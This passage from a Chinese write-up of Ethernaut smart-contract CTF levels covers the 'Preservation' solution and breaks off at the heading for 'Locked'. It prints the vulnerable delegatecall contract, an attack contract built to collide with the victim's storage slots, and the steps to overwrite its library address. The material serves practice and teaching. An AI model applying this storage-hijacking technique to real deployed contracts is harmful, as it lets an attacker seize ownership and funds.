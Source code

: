 ```
3. 再调用setFirstTime修改timeZone1Library为player地址

***遇到的问题：** remix在连接私链和ropsten时，有时候实际使用的gas limit与设置值不符，导致交易隐形失败，本例中就是，remix中设置gas limit为3000000，而实际交易中的gas limit为24000左右，导致交易status为1，但实际合约方法中的delegatecall失败了。*<br>
*使用web3发送交易并设置gaslimit后成功。
这个应该属于remix的bug，基本上所有在jvm中成功，而在私链或ropsten失败的情况都属于此种情况。*

```
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
contract attackContract {
  address public timeZone1Library;
  address public timeZone2Library;
//   address public owner; 
  uint public storedTime;
  
  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
### 17. Locked


**题目源码**：
```
pragma solidity ^0.4.23; 

